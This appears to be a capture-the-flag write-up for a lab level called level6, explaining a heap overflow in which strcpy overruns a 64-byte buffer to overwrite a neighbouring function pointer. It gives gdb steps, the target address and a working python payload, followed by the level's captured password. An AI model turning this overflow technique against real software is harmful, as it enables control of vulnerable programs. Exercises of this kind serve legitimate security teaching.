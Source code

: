 ## Heap overflow, 2 mallocs in a row (level6)

This level's [binary](source.c) requires an argument, otherwise it segfaults.
Then, upon this argument treatment it prints "Nope" or it segfaults again if the
argument is too long.

This binary makes two malloc calls in a row. It first allocates 64 bytes and
then 4 bytes. The first allocated pointer is used as the destination buffer on
a strcpy call from argv[1]. The second allocation is set to the address of the
_m_ function which prints "Nope" before the strcpy call. After that, the second
pointer is dereferenced twice to execute the function it points to.

So what we have to do here is to overflow the 64 byte memory zone to overwrite
the second one to set it to the address of the _n_ function which calls system
to print the password of the next level. This works because multiple malloc
calls usually allocate memory next to one another.

First lets see from when we start writing into the second allocated memory zone:

```shell
# run gdb on binary
gdb ./level6
# give it an overflowing first argument
(gdb) run "a" * 64 + "bbbbccccddddeeeeffffgggghhhhiiii"

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```

Since 0x64 corresponds to the character 'd' in ascii, we can deduce that the
second memory zone is 8 bytes after the first one. Then we have to obtain the
_n_ function's address:

```shell
(gdb) i addr n
Symbol "n" is at 0x8048454 in a file compiled without debugging.
```

And now we can build our payload:

```shell
./level6 $(python -c 'print "a" * 72 + "\x08\x04\x84\x54"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

